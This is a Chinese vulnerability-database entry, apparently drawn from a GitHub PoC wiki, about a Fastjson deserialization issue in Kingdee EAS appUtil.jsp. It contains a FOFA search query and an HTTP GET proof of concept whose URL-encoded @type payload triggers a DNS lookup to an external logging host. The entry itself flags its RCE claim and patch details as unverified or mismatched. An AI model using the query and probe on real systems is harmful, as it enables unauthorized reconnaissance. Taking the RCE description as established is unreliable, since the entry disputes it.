


# 金蝶EAS appUtil list Fastjson DNS迹象

## 条目说明

- 对象与具体问题：金蝶EAS；appUtil list Fastjson DNS迹象
- 版本、配置及部署条件：Inet4Address/Fastjson/JDK依赖未知
- 认证与权限前提：无Cookie示例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- URL编码JSON为Inet4Address DNS，不能支持标题RCE结论
- 概述二进制签名叙述疑从K3Cloud搬来，与本篇JSON机制错配
- 已发安全补丁无公告/版本；FOFA抽取残缺，图未视检

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

金蝶 EAS /easportal/tools/appUtil.jsp进行序列化与反序列化，在此过程中未对数据进行签名或校验，导致客户端发出的数据可被攻击者恶意篡改，写入包含恶意代码的序列化数据，达到在服务端远程命令执行的效果。

## 影响版本

金蝶 EAS

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="easSessionId" || header="easportal"

POC/EXP：

```http
GET /easportal/tools/appUtil.jsp?list=%7B%22x%22%3A%7B%22%40type%22%3A%22java.net.Inet4Address%22%2C%22val%22%3A%22ywyzxpum.eyes.sh%22%7D%7D HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```








## 修复方案

临时缓解方案

限制访问来源地址，如非必要，不要将系统开放在互联网上。

升级修复方案

目前官方已发布安全补丁，建议受影响用户尽快升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
